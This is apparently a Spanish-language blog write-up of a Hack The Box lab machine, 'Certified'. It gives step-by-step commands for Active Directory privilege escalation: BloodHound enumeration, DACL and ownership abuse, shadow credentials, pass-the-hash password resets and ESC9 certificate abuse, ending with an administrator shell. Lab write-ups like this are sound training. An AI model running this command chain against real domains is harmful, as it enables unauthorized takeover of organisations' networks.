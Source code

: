```yaml
---
title: "Certified"
date: "2025-03-16T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["BloodHund", "ESC9", "shadow-credentials", "impacket", "netexec"]
---
```


## Descripción: 
Maquina en la cual con las credenciales que nos proporcionan hacemos uso de bloodhund para poder cambiar de usuario usando la tecnica Shadow Credentials, para luego mediate de una herramienta encontrar la vulnerabilidad ESC9 y poder elevar privilegios.

# Enumeración

```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.41 -oG allPorts
```

<a href="https://imgur.com/At3Gt4r"><img src="https://i.imgur.com/At3Gt4r.png" title="source: imgur.com" /></a>

```jsx
nmap -sCV -p53,88,135,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49681,49714,49719,49770 10.10.11.41 -oN target
```

<a href="https://imgur.com/s61BBao"><img src="https://i.imgur.com/s61BBao.png" title="source: imgur.com" /></a>

Vamos a usar las credenciales que nos provee hack the box judith.mader / judith09, vamos a listar tanto servicios compartidos como usuarios con los dos siguientes comandos.

```jsx
xc smb 10.10.11.41 -d certified.htb -u judith.mader -p judith09 --shares
```

```jsx
nxc smb 10.10.11.41 -u judith.mader -p 'judith09' --users
```

<a href="https://imgur.com/t7YGMxl"><img src="https://i.imgur.com/t7YGMxl.png" title="source: imgur.com" /></a>

Vamos a listar las configuraciones y los protocolos que se le aplican a la maquina con el comando:

```jsx
nxc smb 10.10.11.41 -u judith.mader -p 'judith09' --pass-pol
```

<a href="https://imgur.com/cMpoOaB"><img src="https://i.imgur.com/cMpoOaB.png" title="source: imgur.com" /></a>

La enumeración de la política de contraseñas muestra que la longitud mínima de la contraseña es de 7 caracteres, la complejidad de la contraseña está desactivada (esto significa que los usuarios pueden elegir contraseñas cortas y débiles) y, lo más importante, la opción Account Lockout Threshold, lo que significa que podemos forzar la cuenta sin temer que se quede bloqueada. 

Ya con esto queremos saber que grupos y usuarios hay creados por lo que vamos a usar ldapdomaindump para que nos muestre esto.

```jsx
ldapdomaindump -u 'certified.htb\judith.mader' -p 'judith09' 10.10.11.41
```

<a href="https://imgur.com/qqKXBJ9"><img src="https://i.imgur.com/qqKXBJ9.png" title="source: imgur.com" /></a>

# Bloodhund

Vamos a usar una herramienta llamada bloodhund que nos va a ayudar encontrar vulnerabilidades para saltar de un usuario a otro y hacer finalmente el escalamiento de privilegios. Para instalarlo y configurarlo seguir este paso a paso https://www.kali.org/tools/bloodhound/.

```jsx
bloodhound-python -u 'judith.mader' -p 'judith09' -ns 10.10.11.41 -d certified.htb -c all
```

Despues de subir los archivos que nos genero el comando y buscar al usuario al cual tenemos acceso podemos ver que en Outbound Object Control tenemos la opción de saltar a otro usuario en este caso “management_scv**@**certified.htb**”.** 

<a href="https://imgur.com/3wMqZ0m"><img src="https://i.imgur.com/3wMqZ0m.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/ZpnCq4S"><img src="https://i.imgur.com/ZpnCq4S.png" title="source: imgur.com" /></a>

Ahora lo que vamos a hacer es seguir lo que nos dice bloodhund, descargamos los siguientes scripts:

- https://github.com/fortra/impacket/blob/master/examples/dacledit.py
- https://github.com/fortra/impacket/blob/master/examples/owneredit.py
- https://github.com/ShutdownRepo/pywhisker/blob/main/pywhisker/pywhisker.py

```jsx
python3 owneredit.py -action write -new-owner judith.mader -target management certified.htb/judith.mader:judith09
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management certified.htb/judith.mader:judith09
net rpc group addmem management management -U certified.htb/judith.mader%judith09 -S certified.htb
pth-net rpc group addmem management judith.mader -U certified.htb/judith.mader%37937096CA6E6E2209752A3293831D17:8EC62AC86259004C121A7DF4243A7A80 -S certified.htb
```

Despues de esto lo que hemos hecho es agregar a judith al grupo management y ahora podemos modificar ls atributos de management_svc para verificar que todo se ha hecho ejecutamos el comando a continuacion.

```jsx
net rpc group members management -U certified.htb/judith.mader%judith09 -S certified.htb
```

<a href="https://imgur.com/tYORAxa"><img src="https://i.imgur.com/tYORAxa.png" title="source: imgur.com" /></a>

Ahora para aplicar el ataque de shadow credentials vamos a usar una herramienta llamada certipy la cual vamos a instalar en un entorno virtual de python.

```python
python3 -m venv env
source env/bin/activate
pip3 install certipy-ad
```

Si bien podriamos mandar el comando de certipy solamente es my probable que tengamos un error debido a que nuestra hora es diferente al de la maquina por lo que tambien vamos a usar faketime de la siguiente manera:

```python
faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" certipy shadow auto -username judith.mader@certified.htb -p judith09 -account management_svc
```

<a href="https://imgur.com/5voHu48"><img src="https://i.imgur.com/5voHu48.png" title="source: imgur.com" /></a>

Ahora desde bloodhund podemos ver que podemos cambiar hacia el usuario ca_operator con un GenericAll por lo que vamos a seguir lo que nos dice.

<a href="https://imgur.com/rLTmwqO"><img src="https://i.imgur.com/rLTmwqO.png" title="source: imgur.com" /></a>

```python
pth-net rpc password ca_operator "nueva contraseña" -U certified.htb/management_svc%ffffffffffffffffffffffffffffffff:a091c1832bcdd4677c28b5a6a1295584 -S certified.htb
```

Con esto le hemos cambiado la contraseña a el usuario ca_operator ahora vamos a tratar de encontrar alguna otra vulnerabilidad usando certipy de nuevo.

```python
certipy find -dc-ip 10.10.11.41 -u ca_operator -p "nueva contraseña"
```

Abriendo el txt que nos deja este comando en la parte de certipy templates podemos ver una vulnerabilidad ESC9

<a href="https://imgur.com/n6xKWXY"><img src="https://i.imgur.com/n6xKWXY.png" title="source: imgur.com" /></a>

Vamo a irnos a esta pagina para que nos de el hash de la contraseña que le asignamos https://www.browserling.com/tools/ntlm-hash y luego vamos a ejecutar los siguientes comandos para explotar el ESC9

```python
certipy account update -username management_svc@certified.htb -hashes "hash management_svc" -user ca_operator -upn administrator
certipy req -username ca_operator@certified.htb -hashes "hash nueva contraseña" -ca certified-DC01-CA -template CertifiedAuthentication -debug
```

<a href="https://imgur.com/3NheBlO"><img src="https://i.imgur.com/3NheBlO.png" title="source: imgur.com" /></a>

Revertimos lo que hemos hecho con el usuario ca_operator para que cuando busqeumos el hash de administrator lo halle:

```python
certipy account update -username management_svc@certified.htb -hashes "hash management_svc" -user ca_operator -upn ca_operator@certified.htb
```

Y finalmente buscamos el hash del administrator con el siguiente comando teniendo en cuenta los problemas de hora que puede tener la maquina.

```python
certipy auth -pfx administrator.pfx -domain certified.htb
```

<a href="https://imgur.com/0UNBYmi"><img src="https://i.imgur.com/0UNBYmi.png" title="source: imgur.com" /></a>

Finalmente con el hash del administrator vamos a conseguir una shell y ya podremos encontrar las dos flags:

```python
evil-winrm -i 10.10.11.41 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
```
